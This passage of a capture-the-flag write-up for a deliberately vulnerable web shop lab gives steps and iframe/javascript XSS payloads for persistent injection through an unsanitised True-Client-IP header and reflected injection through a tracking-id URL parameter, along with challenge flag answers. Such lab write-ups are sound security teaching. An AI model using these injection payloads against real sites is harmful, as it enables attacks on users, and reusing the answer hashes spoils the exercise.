     ```js
    <iframe src="javascript:alert(`xss`)"> s
    ```
    
###  Perform a persistent XSS!
- **Answer:** 149aa8ce13d7a4a8a931472308e269c94dc5f156
- **Steps to Reproduce:** 
    - We are going to manipulate the last login Ip to get persistent XSS
    - Add the following header in the request : `GET /rest/saveLoginIp HTTP/1.1`

    ```
    True-Client-IP: <iframe src="javascript:alert(`xss`)">
    ```
    
    - The **True-Client-IP** header is similar to the **X-Forwarded-For** header, both tell the server or proxy what the IP of the client is.
    - Due to there being no sanitation in the header we are able to perform an XSS attack.


### Perform a reflected XSS!
- **Answer:** 23cefee1527bde039295b2616eeb29e1edc660a0
- **Steps to Reproduce:** 
    - Visit the **Order History** page in the admin account.
    - Click on the truck icon of any of the orders.
    - You'll be navigated to the page: `http://10.10.28.40/#/track-result?id=id-goes-here`
    - Replace the value to ID to XSS payload: `<iframe src="javascript:alert(`xss`)">`
    - Final address will look like this:

    ```
    http://10.10.28.40/#/track-result?id=<iframe src="javascript:alert(`xss`)">    
    ```
    
    - The server will have a lookup table or database (depending on the type of server) for each tracking ID. As the 'id' parameter is not sanitised before it is sent to the server, we are able to perform an XSS attack.  

---

## Exploration

### Access the /#/score-board/ page
- **Answer:** 7efd3174f9dd5baa03a7882027f2824d2f72d86ess
- **Steps to Reproduce:** Visit `http://10.10.28.40/#/score-board`
    - Here you can see your completed tasks as well as other tasks in varying difficulty.
---

## References

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)